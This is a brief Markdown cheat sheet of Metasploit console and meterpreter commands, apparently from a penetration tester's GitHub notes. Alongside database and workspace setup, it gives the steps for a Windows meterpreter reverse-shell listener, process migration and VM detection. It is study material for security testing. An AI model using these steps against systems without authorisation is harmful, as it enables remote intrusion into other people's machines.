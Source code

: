 # Metasploit Notes

## General Usage
__Basics__
----
```msfconsole
# Search metasploit's db for exploits
search <keyword>

# Get context-specific variable
get <var>

# Set global variable
setg <var>

# Unset context-specific variable
unset <var>

# store nmap scan in database
db_nmap <options> <host>

# list open services on target
services

# list host info in database
hosts

# list vulns
vulns

# edit exploit source code
edit
```
```meterpreter (windows)
# migrate to another process
migrate <PID>

# check if target is a VM
run post/windows/gather/checkvm

# setup msfvenom reverse shell payload listener
# don't forget to set LHOST and LPORT	
use exploit/multi/handler

# setup windows meterpreter reverse shell
set payload windows/meterpreter/reverse_tcp
run
```
__Project Management__
```bash
systemctl start postgresql  # start postgres database
msfdb init                  # create metasploit database
```
```msfconsole
db_status   # connect to db
workspace   # setup workspace
```

## Meterpreter
`getpid`: get meterpreter shell pid

## Useful Modules
`exploit/multi/handler/reverse_tcp`

